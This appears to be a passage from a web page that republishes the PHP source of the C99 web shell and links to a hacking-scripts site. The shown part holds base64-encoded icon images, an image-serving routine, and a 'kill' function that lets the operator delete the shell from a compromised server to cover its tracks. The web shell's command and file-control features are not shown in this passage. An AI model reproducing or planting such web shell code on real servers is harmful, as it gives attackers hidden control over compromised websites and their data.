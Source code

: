   "b//2b/zGb/mWb/Zmb/M2b/AGbM/2bMzGbMmWbMZmbMM2bMAGaZ/2aZzGaZmWaZZmaZM2aZAGZm/2ZmzGZmmWZmZmZm" .
  "M2ZmAGYz/2YzzGYzmWYzZmYzM2YzAGYA/2YAzGYAmWYAZmYAM2YAADP//zP/zDP/mTP/ZjP/MzP/ADPM/zPMzDPMmT" .
  "PMZjPMMzPMADOZ/zOZzDOZmTOZZjOZMzOZADNm/zNmzDNmmTNmZjNmMzNmADMz/zMzzDMzmTMzZjMzMzMzADMA/zMA" .
  "zDMAmTMAZjMAMzMAAAD//wD/zAD/mQD/ZgD/MwD/AADM/wDMzADMmQDMZgDMMwDMAACZ/wCZzACZmQCZZgCZMwCZAA" .
  "Bm/wBmzABmmQBmZgBmMwBmAAAz/wAzzAAzmQAzZgAzMwAzAAAA/wAAzAAAmQAAZgAAM+4AAN0AALsAAKoAAIgAAHcA" .
  "AFUAAEQAACIAABEAAADuAADdAAC7AACqAACIAAB3AABVAABEAAAiAAARAAAA7gAA3QAAuwAAqgAAiAAAdwAAVQAARA" .
  "AAIgAAEe7u7t3d3bu7u6qqqoiIiHd3d1VVVURERCIiIhEREQAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMg" .
  "ZG9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAAkACwAAAAAFA" .
  "AWAAAImQBJCCTBqmDBgQgTDmQFAABDVgojEmzI0KHEhBUrWrwoMGNDihwnAvjHiqRJjhX/qVz5D+VHAFZiWmmZ8BGH" .
  "ji9hxqTJ4ZFAmzc1vpxJgkPPn0Y5CP04M6lPEkCN5mxoJelRqFY5TM36NGrPqV67Op0KM6rYnkup/gMq1mdamC1tdn" .
  "36lijUpwjr0pSoFyUrmTJLhiTBkqXCgAA7",
  "sound"=&gt;"R0lGODlhFAAWAMIAAP////8zM8z//8zMzJmZmWYAADMzMwAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG" .
  "9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAACACwAAAAAFAAW" .
  "AAADayi63P4wNsNCkOocYVWPB7FxFwmFwGh+DZpynndpNAHcW9cVQUj8tttrd+G5hMINT7A0BpE4ZnF6hCqn0iryKs" .
  "0SDN9v0tSc0Q4DQ1SHFRjeBrQ6FzNN5Co2JD4YfUp7GnYsexQLhBiJigsJADs=",
  "script"=&gt;"R0lGODlhFAAWAMIAAP///8z//5mZmTMzMwAAAAAAAAAAAAAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG" .
  "9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAABACwAAAAAFAAW" .
  "AAADZTi6vPEwDECrnSO+aTvPEddVIrhVBJCSF8QRMIwOBE2fVLrmcYz3O4pgKCDgVMgR0SgZOYVM0dNS/AF7gGy1me" .
  "16v9vXNdYNf89es2os00bRcDW7DVDDwe87fjMg+v9DNxBzYw8JADs=");
  header('Content-type: image/gif');
  echo base64_decode($images[$img]);
  die();
}
function kill(){ // Shell deleter function
  style();
  echo("&lt;form  method='post'&gt;");
  echo("Type 'confirm' to kill the shell:&lt;br&gt;\n&lt;input type='text' name='ver' action='?act=kill'&gt;");
  echo("&lt;input type='submit' value='Delete'&gt;");
  echo("&lt;/form&gt;");
  if($_POST['ver'] == "confirm"){
    $self = basename($_SERVER['PHP_SELF']);
    if(unlink($self)){echo("Deleted");}
    else{echo("Failed");}
{% endhighlight %}

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"
